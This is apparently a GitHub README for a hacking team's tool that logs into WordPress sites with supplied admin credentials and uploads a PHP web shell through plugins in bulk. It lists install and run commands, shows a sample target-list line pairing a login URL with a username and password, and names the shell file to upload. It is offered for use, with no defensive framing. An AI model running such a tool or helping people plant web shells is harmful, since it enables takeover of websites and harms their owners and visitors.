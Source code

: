 # Wordpress Auto Upload Shell in plugins
![IMG_20201012_175906](https://user-images.githubusercontent.com/65480013/96328235-d3261c00-106a-11eb-8052-89198216154d.jpg)
# Author
```
Nickname : D4RKSH4D0WS
Team : AnonRoz-Team
```

# Requirements
```
requests bs4
```

# Installation
```
$ pkg install python2
$ pip2 install requests bs4
$ git clone https://github.com/AnonRoz-Team/wp_auto_upshell
$ cd wp_auto_upshell
$ python2 wp_auto.py list_web.txt sh3l.php
Isi list_web.txt seperti ini 
https://web.com/wp-login.php|admin|password
```
